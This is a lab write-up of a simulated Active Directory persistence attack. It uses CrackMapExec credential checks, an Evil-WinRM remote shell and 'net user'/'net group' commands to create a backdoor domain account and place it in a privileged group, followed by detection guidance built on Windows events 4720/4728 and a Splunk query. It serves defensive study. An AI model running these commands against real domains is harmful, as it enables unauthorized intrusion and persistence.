







# Domain Account Creation

A persistence technique. Once an attacker has domain credentials, creating a new account gives them a foothold that survives password changes on the original compromised account. This scenario simulates a attacker with admin credentials creating a backdoor account and placing it in a privileged group.

## MITRE ATT&CK Mapping (TTPs)

| Tactic           | Technique                      | ID        |
| ---------------- | ------------------------------ | --------- |
| Persistence      | Create Account: Domain Account | T1136.002 |
| Persistence      | Account Manipulation           | T1098     |
| Lateral Movement | Remote Services: WinRM         | T1021.006 |

## Environment Check

The domain was inspected in Active Directory Users and Computers before the attack to confirm the Hacker account did not yet exist.



## Attack

### Step 1: Confirm Administrator credentials (T1078)

CrackMapExec confirmed the captured Administrator credential worked against the DC.

```bash
crackmapexec smb 192.168.40.10 -u 'Administrator' -p 'admin@123' -d corp.local
```

The `(Pwn3d!)` tag indicates admin rights on the target.



### Step 2: Open a remote shell with Evil-WinRM (T1021.006)

An interactive PowerShell session was opened on the DC over WinRM:

```bash
evil-winrm -i 192.168.40.10 -u Administrator -p 'admin@123'
```

`whoami` returned `corp\administrator`. WinRM is enabled by default for administrators, so no extra setup was needed.



### Step 3: Create the account and add it to a group (T1136.002, T1098)

Two `net` commands inside the Evil-WinRM session:

```powershell
net user Hacker Password@123 /add /domain
net group "HelpDesk" hacker /add /domain
```

Both returned `The command completed successfully`. HelpDesk was chosen over Domain Admins as a more realistic attacker move: still privileged, but less likely to trip the obvious alerts.



### Step 4: Verify membership

```powershell
net user hacker /domain
```

Confirmed the account is active, password never expires, and Global Group memberships are `*HelpDesk *Domain Users`.


## Detection

### Event 4720 (account created)

Creating the Hacker account fired 4720 under User Account Management. New Account: `CORP\Hacker`. Subject: the Administrator session on DC01.



### Event 4728 (added to a global group)

Adding Hacker to HelpDesk fired 4728 under Security Group Management. Member: `CN=Hacker,CN=Users,DC=corp,DC=local`. Group: `CORP\HelpDesk`.



### Splunk

```spl
index=* "hacker" ("EventCode=4728" OR "EventCode=4720")
| table _time, EventCode, Account_Name
```

Returns the two events in sequence: 4720 (Administrator created Hacker), then 4728 (Hacker added to HelpDesk). The same subject and target within a short window is the signature.



## Summary

| Step                    | TTP                  | Event ID |
| ----------------------- | -------------------- | -------- |
| Confirm credentials     | T1078 Valid Accounts | —        |
| Remote shell over WinRM | T1021.006            | 4624     |
| Create account          | T1136.002            | 4720     |
| Add to group            | T1098                | 4728     |

Detection lesson: 4720 alone could be legitimate IT work. 4720 immediately followed by 4728 for the same account, from the same subject, is much more suspicious. Correlating the two beats alerting on either in isolation.
